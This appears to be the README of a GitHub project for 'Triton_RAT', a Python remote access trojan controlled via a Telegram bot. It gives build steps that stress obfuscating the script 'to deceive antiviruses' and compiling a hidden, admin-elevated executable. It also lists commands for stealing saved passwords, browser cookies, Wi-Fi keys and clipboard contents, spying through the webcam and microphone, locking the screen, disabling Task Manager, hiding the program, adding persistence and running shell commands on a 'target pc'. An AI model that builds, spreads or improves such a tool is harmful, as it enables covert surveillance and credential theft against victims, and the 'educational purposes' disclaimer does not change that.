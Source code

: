 # Triton_RAT
<div align="center" id="top">
  
</div>

<div align="center">
  <h1>Triton_Remote_Administration_Tool</h1>
  <h3>The best rat that works with telegram!</h3>

<h3 align="center">I wrote RAT in python that works with telegram!</h3>
</div>
**With this tool you can control with YOUR pc remotly using telegram**
That you need only hand (2 optional) , exe file that you will get from pyinstaller and telegram account




## :dart: About ##
This tool was created for educational purporses only!
I'm not responding for your action!


<p align="left"> <a href="https://twitter.com/" target="blank"><img src="https://img.shields.io/twitter/follow/?logo=twitter&style=for-the-badge" alt="" /></a> </p>

<p align="left">
</p>

<h3 align="left">Let's get started!:</h3>
<h3 align="left">Download python!</h3>
<p align="left"> <a href="https://www.python.org" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" alt="python" width="40" height="40"/> </a> </p>



## :checkered_flag: Starting ##

```bash
# Download this project
$ Download pyinstaller from https://github.com/pyinstaller/pyinstaller
# because most antiviruses will detect as virus pyinstaller from original pip version
# if you downloaded pyinstaller from pip like pip install pyinstaller
# Delete that 

# Download requiremets.txt
$ pip install -r requirements.txt

# change bot api in python file to your own bot
$ bot = telebot.TeleBot('your api token')

# !MAIN STEP! obfuscation will help to deceive antiviruses
$ to obfuscate that script copy full code and paste it in https://freecodingtools.org/py-obfuscator
$ https://freecodingtools.org/py-obfuscator


# aftervdownloading pyinstaller run:
$ pyinstaller --onefile --noconsole --uac-admin --hidden-import telebot --hidden-import pyautogui --hidden-import cv2 --hidden-import json --hidden-import base64 --hidden-import sqlite3 --hidden-import win32crypt --hidden-import Cryptodome.Cipher.AES --hidden-import shutil --hidden-import datetime --hidden-import numpy --hidden-import pyaudio --hidden-import wave --hidden-import random --hidden-import browser_cookie3 --hidden-import pyttsx3 Triton_Rat_Release.py



# wait for building exe

$ run exe and bot started! 


```

## You can use:

        ⚔️/start - start the program
        ⚙️/help - help with commands
        🔌/addstartup - to add autostart
        🧑🏻‍💻/users - show users in pc
        🔑/passwords - show saved passwords in pc
        🍪/robloxcookie - show roblox cookies
        🪪/info - to show information about pc ,also location , country, city , ip
        🖥️/whoami - to show name of pc
        💬👂🏻/textspech 'your text' - your text will sounded in pc
        🎵/playsound 'file path' -(first run /upload to upload your music file in pc) your file will sound in pc for ex: /playsound C:\test.mp3
        🔫/execute - execute shell commands (like terminel emulator in netcat)
        🗡️/e 'your command' - also execute shell commands
        🏹/ex 'your command' - use this if you will execute commands with long response 
        📷/screenshot - to get screenshot
        📹/webscreen - get screenshot from camera
        🎙️/mic 'time in seconds' - record microphone of pc
        ☢️/winblocker - my own winlocker
        ☣️/winblocker2 - if winblocker doesnt work
        📁/download 'your file' - to download files(for exm: /download C:\test.txt)
        🗃️/upload - to upload file in target pc
        📋/clipboard - show users clipboard
        🎦/webcam - get webcam video
        🎥/screenrecord - get screenrecord
        🌐/chrome 'website url' - open website in chrome in target pc
        🌐/edge 'website url' - open website in edge in target pc
        🌐/firefox 'website url' - open website in firefox in target pc             
        Ⓜ️/msg 'your message' - send message(messagebox) to target
        💣/spam 'your message' - spam your message 10 times but if you will click al lot...
        🛜/wifilist - show saved wifi
        🔐/wifipass 'name of accespoint' - show password of saved wifi
        🖱️/mousemesstart - start mouse messing
        🐁/mousemesstop - stop mouse messing
        🪤/mousekill - disable mouse
        🐭/mousestop - enable mouse
        🔊/fullvolume - make full volume
        🔉/volumeplus - make pc volume + 10
        🔇/volumeminus - make pc volume - 10
        🪦/disabletaskmgr - disable task manager
        📠/enabletaskmgr - enable task manager
        🧱/wallpaper - change desktop's wallpaper
        ⌨️/keypress 'your key' - in pc's keyboard will pressed this keys 
        ⌨️/keypresstwo 'your key' 'your key' - in pc's keyboard will pressed this keys 
        ⌨️/keypresstthree 'your key' 'your key' 'your key' - in pc's keyboard will pressed this keys 
        📃/tasklist - to show tasks
        🧨/taskkill 'your task' - kill entered task
        🕶️/hide - to hide your app
        👓/unhide - unhide your app
        💤/sleep - send windows to sleep
        🕚/shutdown - shutdown pc
        🔄️/restart - restart pc

## :memo: License ##

This project is licensed under the MIT License. For more details, please refer to the [LICENSE](LICENSE.md) file.

